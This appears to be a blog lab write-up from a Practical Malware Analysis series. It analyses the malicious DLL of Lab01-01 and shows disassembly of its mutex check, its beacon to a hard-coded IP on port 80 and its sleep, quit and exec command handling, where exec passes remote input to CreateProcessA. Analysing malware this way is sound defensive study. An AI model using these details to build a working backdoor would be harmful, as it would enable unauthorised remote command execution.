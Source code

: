 ```yaml
---
layout: post
title: 0x02_Lab01-01-part02
categories: [series, Practical Malware Analysis]
tags: [malware analysis, reverse engineering, tcp socket, backdoor]
---
```


## Overview

Filename | Size | MD5
:-------- |:----- |:-----
Lab01-01.exe | 16 KB | bb7425b82141a1c0f7d60e5106676bb1
Lab01-01.dll | 160 KB | 290934c61de9176ad682ffdd65f0a669

**TL;DR:** The malicious DLL creates a mutex named `SADFHUHF`, opens a socket to `127.26.152.13:80`, sends a `hello` beacon and processes the commands it eventually receives from a remote attacker. This is the second part of Lab01-01, focusing on the malicious DLL. First part is [here](/posts/pma-Lab01-01-part01/).

**Tools:** IDA Free 7.0, x32dbg

**IDB:** [Lab01-01_dll.i64](/assets/series/pma/Lab01-01_dll.i64)

---

## Analysis of the malicious DLL
If the malicious DLL is loaded, the `_DLLMain()` function is executed:

```
0x10001342    push    edi             ; lpvReserved
0x10001343    push    esi             ; fdwReason
0x10001344    push    ebx             ; hinstDLL
0x10001345    call    _DLLMain
```

### Mutex
The `_DLLMain()` function starts by checking the existence of a mutex named `SADFHUHF` with a call to `OpenMutexA`. If the mutex already exists the codeflow jumps to the end of function, else the mutex is created:
```
0x10001067    push    offset Name     ; "SADFHUHF"
0x1000106C    push    eax             ; bInitialOwner
0x1000106D    push    eax             ; lpMutexAttributes
0x1000106E    call    ds:CreateMutexA
```

### Socket
Then, a socket is created in order to communicate with IP address `127.26.152.13` on port `80`: 
```
0x10001078    push    ecx             ; lpWSAData
0x10001079    push    202h            ; wVersionRequested
0x1000107E    call    ds:WSAStartup   ; init. Winsock usage
0x10001084    test    eax, eax
0x10001086    jnz     exit
0x1000108C    push    IPPROTO_TCP     ; protocol
0x1000108E    push    SOCK_STREAM     ; type
0x10001090    push    AF_INET         ; af
0x10001092    call    ds:socket       ; create socket
0x10001098    mov     esi, eax
0x1000109A    cmp     esi, 0FFFFFFFFh
0x1000109D    jz      cleanup
0x100010A3    push    offset cp       ; "127.26.152.13"
0x100010A8    mov     [esp+120Ch+name.sa_family], AF_INET
0x100010AF    call    ds:inet_addr    ; proper formatting
0x100010B5    push    80              ; hostshort (port)
0x100010B7    mov     dword ptr [esp+120Ch+name.sa_data+2], eax ; IP
0x100010BB    call    ds:htons        ; to network byte order
0x100010C1    lea     edx, [esp+1208h+name]
0x100010C5    push    10h             ; namelen
0x100010C7    push    edx             ; name
0x100010C8    push    esi             ; s
0x100010C9    mov     word ptr [esp+1214h+name.sa_data], ax ; port
0x100010CE    call    ds:connect     ; connect to 127.26.152.13:80
```

If the connection is successful, the string `hello` is sent:
```
0x100010FA    push    ecx             ; len
0x100010FB    push    offset buf      ; "hello"
0x10001100    push    esi             ; s
0x10001101    call    ds:send
```

And data are received:
```
0x10001122    push    0               ; flags
0x10001124    lea     eax, [esp+120Ch+data_recieved]
0x1000112B    push    1000h           ; len
0x10001130    push    eax             ; buf
0x10001131    push    esi             ; s
0x10001132    call    ds:recv
0x10001138    test    eax, eax
0x1000113A    jle     short retry
```

### Commands
The malicious DLL can process 3 commands: `sleep`, `q` (quit) and `exec`.

#### sleep
Sleep for 0x60000 milliseconds:

```
0x10001143    push    5               ; MaxCount
0x10001145    push    ecx             ; data received
0x10001146    push    offset Str1     ; "sleep"
0x1000114B    call    ebp ; strncmp
0x1000114D    add     esp, 0Ch
0x10001150    test    eax, eax
0x10001152    jnz     short dont_sleep
0x10001154    push    60000h          ; dwMilliseconds
0x10001159    call    ds:Sleep
0x1000115F    jmp     short retry
```

#### q
Close socket and quit:

```
100011B6    cmp     [esp+1208h+data_received], 'q'
100011BE    jz      short cmd_quit
```

#### exec
Uses the string following the command `exec` to set the parameter `lpCommandLine` of the API `CreateProcessA`:

```
0x10001161    lea     edx, [esp+1208h+data_received]
0x10001168    push    4               ; MaxCount
0x1000116A    push    edx             ; Str2
0x1000116B    push    offset aExec    ; "exec"
0x10001170    call    ebp ; strncmp
0x10001172    add     esp, 0Ch
0x10001175    test    eax, eax
0x10001177    jnz     short dont_exec
[...]
0x1000118C    push    eax             ; lpProcessInformation
0x1000118D    push    ecx             ; lpStartupInfo
0x1000118E    push    0               ; lpCurrentDirectory
0x10001190    push    0               ; lpEnvironment
0x10001192    push    8000000h        ; dwCreationFlags
0x10001197    push    1               ; bInheritHandles
0x10001199    push    0               ; lpThreadAttributes
0x1000119B    lea     edx, [esp+1224h+data_received+5] ; ->after "exec "
0x100011A2    push    0               ; lpProcessAttributes
0x100011A4    push    edx             ; lpCommandLine
0x100011A5    push    0               ; lpApplicationName
0x100011A7    mov     [esp+1230h+StartupInfo.cb], 44h
0x100011AF    call    ebx ; CreateProcessA
0x100011B1    jmp     retry
```

If an unrecognised commmand is received, the DLL sleeps for 0x60000 milliseconds and loops up to the sending of the `hello` string.

---
EOF
